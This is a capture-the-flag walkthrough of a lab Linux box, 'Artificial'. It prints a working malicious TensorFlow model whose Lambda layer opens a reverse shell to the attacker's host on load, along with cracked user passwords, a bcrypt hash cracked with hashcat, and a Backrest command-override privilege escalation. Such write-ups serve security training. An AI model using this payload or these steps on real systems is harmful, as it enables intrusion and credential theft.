

# Artificial

Difficulty: Easy
OS: Linux
Category: Offensive
Date: 2026-02-24T05:14:03.632Z


### Scanning

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 7c:e4:8d:84:c5:de:91:3a:5a:2b:9d:34:ed:d6:99:17 (RSA)
|   256 83:46:2d:cf:73:6d:28:6f:11:d5:1d:b4:88:20:d6:7c (ECDSA)
|_  256 e3:18:2e:3b:40:61:b4:59:87:e8:4a:29:24:0f:6a:fc (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://artificial.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Jun 22 22:06:13 2025 -- 1 IP address (1 host up) scanned in 21.76 seconds
```

The scan finds two open ports. I add `artificial.htb` to `/etc/hosts`, open the website, and register an account.

Upon logging in after registration, I'll see a file upload. I'll upload TensorFlow files here which is `.h5` file.



### TensorFlow

TensorFlow is an open-source machine learning framework developed by Google. It is widely used for:

- Building and training neural networks
- Performing AI inference (e.g., image classification, natural language processing)
- Running models in production via Python, C++, or JavaScript backends

Key components:

| Component | Description |
| --- | --- |
| *tensorflow.keras()* | High-level API for defining models (based on Keras) |
| *model.save()* | Exports the model (e.g., to .h5 or SavedModel/) |
| *load_model()* | Loads a model for inference — **this is the vulnerable part** in many systems |
| *custom_objects* | User-defined layers or functions that can be deserialized (RCE path) |

### Exploit Code

```python
import tensorflow as tf

def exploit(x):
    import os
    os.system("bash -c \"sh -i >& /dev/tcp/10.10.14.4/4444 0>&1\"")  # RCE command
    return x

model = tf.keras.Sequential()
model.add(tf.keras.layers.Input(shape=(64,)))
model.add(tf.keras.layers.Lambda(exploit))
model.compile()
model.save("exploit.h5")
```

The server calls:

```python
tf.keras.models.load_model("upload_model.h5", compile=True)
```

TensorFlow deserializes the model, including **any embedded Python classes** like **custom layers —** if malicious code is embedded in those classes — it gets executed.

I read more from this post:

[https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model](https://splint.gitbook.io/cyberblog/security-research/tensorflow-remote-code-execution-with-malicious-model)

> TensorFlow's Lambda layer stores arbitrary Python functions when saving a model, and blindly re-executes them during deserialization via load_model(), offering a clean RCE vector against systems that load untrusted .h5 files.
>

I run the exploit in Docker, beginning with this `Dockerfile`:

```python
FROM python:3.8-slim

WORKDIR /code

RUN apt-get update && \
apt-get install -y curl && \
curl -k -LO https://files.pythonhosted.org/packages/65/ad/4e090ca3b4de53404df9d1247c8a371346737862cfe539e7516fd23149a4/tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl && \
rm -rf /var/lib/apt/lists/*

RUN pip install ./tensorflow_cpu-2.13.1-cp38-cp38-manylinux_2_17_x86_64.manylinux2014_x86_64.whl

ENTRYPOINT ["/bin/bash"]
```

I'll then pull a repository

```bash
git clone https://github.com/Splinter0/tensorflow-rce.git
mv Dockerfile tensorflow-rce/
cd tensorflow-rce
```

I build the docker

```bash
docker run --rm -it -v $(pwd):/code tf_rce_env
```

Inside the container, I execute the Python script `exploit.py`.

```python
python3 exploit.py
```

I upload the generated `.h5` file to the website.


I click **View Predictions** to trigger model loading and the Lambda-layer payload.


### User

If I look at instance folder, I'll see `users.db`

Doing a `file` command reveals it’s an `sqlite3` file. I open it with `sqlite3` command, then get the credentials inside


I crack the credentials at [`crackstation.net`](http://crackstation.net) it will crack 2 users, but I'll use the user `gael`

```bash
gael:mattp005numbertwo
royer:marwinnarak043414036
```

I log in over SSH as `gael` and read the user flag in `/home/gael`.

### Root

Running `linpeas` it will flag that there’s a file at `/var/backups`. If I run the command `id` , gael is part of `sysadm`. So once I see `backrest_backup.tar.gz` file. I can extract this file for further enumeration

```bash
tar -xvf /var/backups/backrest_backup.tar.gz -C /tmp
```

Going on to the extracted directory, I'll see a bunch of files. I'll look for credentials with this quick command.

```bash
grep -riE "pass|secret|token|auth|user|admin|login|jwt|cookie" /tmp/backrest

Binary file /tmp/backrest/restic matches
/tmp/backrest/.config/backrest/config.json:  "auth": {
/tmp/backrest/.config/backrest/config.json:    "users": [
/tmp/backrest/.config/backrest/config.json:        "passwordBcrypt": "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP"
Binary file /tmp/backrest/backrest matches
/tmp/backrest/processlogs/backrest.log:{"level":"debug","ts":1741126673.1797245,"msg":"loading auth secret from file"}
/tmp/backrest/install.sh:User=$(whoami)
/tmp/backrest/install.sh:WantedBy=multi-user.target
```

I found a password which is a Bcrypt. If I look more inside the file which has the password. I'll know the user is `backrest_root`

The `passwordBcrypt` value is Base64-encoded, so I decode it before attempting to crack the bcrypt hash.

```bash
echo "JDJhJDEwJGNWR0l5OVZNWFFkMGdNNWdpbkNtamVpMmtaUi9BQ01Na1Nzc3BiUnV0WVA1OEVCWnovMFFP" | base64 -d
$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO
```

I crack with hashcat

```bash
hashcat -m 3200 -a 0 hash rockyou.txt

$2a$10$cVGIy9VMXQd0gM5ginCmjei2kZR/ACMMkSsspbRutYP58EBZz/0QO:!@#$%^
```

Now I know there’s a backrest, I'll look at the ports running internally

```bash
netstat -tuln
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State      
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN     
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:5000          0.0.0.0:*               LISTEN     
tcp        0      0 127.0.0.1:9898          0.0.0.0:*               LISTEN     
tcp6       0      0 :::80                   :::*                    LISTEN     
tcp6       0      0 :::22                   :::*                    LISTEN     
udp        0      0 127.0.0.53:53           0.0.0.0:*                          
udp        0      0 0.0.0.0:68              0.0.0.0:* 
```

Backrest is running in port `9898`. I'll exit the current ssh session, and port forward it to my machine

```bash
ssh -L 9898:127.0.0.1:9898 gael@artificial.htb
```

I'll look at how I can exploit backrest

```bash
./backrest -h
Usage of ./backrest:
  -bind-address string
        address to bind to, defaults to 127.0.0.1:9898. Use :9898 to listen on all interfaces. Overrides BACKREST_PORT environment variable.
  -config-file string
        path to config file, defaults to XDG_CONFIG_HOME/backrest/config.json. Overrides BACKREST_CONFIG environment variable.
  -data-dir string
        path to data directory, defaults to XDG_DATA_HOME/.local/backrest. Overrides BACKREST_DATA environment variable.
  -install-deps-only
        install dependencies and exit
  -restic-cmd string
        path to restic binary, defaults to a backrest managed version of restic. Overrides BACKREST_RESTIC_COMMAND environment variable.
```

It seems that `-data-dir string` and `restic-cmd string` allows me to **arbitraty read** and **arbitrary command execution**.

I open Backrest on port `9898` in my browser.

I add a repository and configure the command override shown below.


I save the settings, return to my terminal, and check `/bin/bash` with `ls /bin/bash -l`. I then run `bash -p` and read the root flag.


